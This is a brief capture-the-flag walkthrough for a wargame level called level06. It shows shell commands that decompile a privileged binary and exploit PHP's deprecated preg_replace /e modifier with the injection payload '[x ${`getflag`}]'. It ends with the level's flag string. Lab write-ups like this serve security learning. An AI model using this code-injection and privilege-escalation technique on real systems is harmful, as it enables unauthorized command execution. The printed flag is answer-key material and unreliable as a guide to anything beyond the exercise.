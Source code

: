 # level06

```shell
ls -la
```

shows that the level06 executable belongs to flag06 group, privilege escalation should be possible

```shell
scp -P 4242 level06@127.0.0.1:/home/user/level06/level06 .
```

```shell
/opt/retdec/bin/retdec-decompiler.py level06
```

setresgid confirms that privilege escalation is possible

```shell
cat levelo6.php
```

shows deprecated `\e` regex modifier, which indicates we can inject code in the string. preg_replace will perform the regex substitution then evaluate the code

```shell
echo '[x ${`getflag`}]' > /tmp/exploit.php
```

```shell
./level06
```

gives flag:

```shell
wiok45aaoguiboiki2tuin6ub
```
